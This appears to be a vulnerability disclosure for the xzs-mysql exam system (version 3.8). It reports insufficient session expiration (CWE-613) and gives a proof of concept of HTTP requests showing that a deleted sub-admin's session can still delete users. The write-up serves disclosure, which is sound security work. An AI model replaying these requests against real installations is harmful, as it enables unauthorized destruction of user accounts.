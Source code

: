 ## TYPE: Insufficient Session Expiration(CWE-613)

## Date: 3/13/2024
## Vendor
[mindskip](https://github.com/mindskip)
Homepage: https://github.com/mindskip/xzs-mysql
version: 3.8(updated 7/19/2022)
commit: 189b03f63bef4e2bfeba7003512860283ee27605(updated 3/8/2024)
## Tested on: Debian Linux, Mysql

## Exploit Description
Suffering from CWE613-Insufficient Session Expiration, which allows attackers to use the deleted admin session to do anything.
### PoC
1. `admin` login
2. `admin` create another admin named `sub-admin`
```
POST 	/api/admin/user/edit HTTP/1.1
{"id":null,"userName":"sub-admin","password":"123456"...}
```
3. `sub-admin` logged in 
4. `admin` delete `sub-admin`
```
POST /api/admin/user/delete/12 HTTP/1.1
```
5. `sub-admin` can still delete students
```
POST /api/admin/user/delete/15 HTTP/1.1
...
response: 
HTTP/1.1 200 OK
{"code":1,"message":"成功","response":null}
```
![[Pasted image 20240313105753.png]]
![[Pasted image 20240313105803.png]]

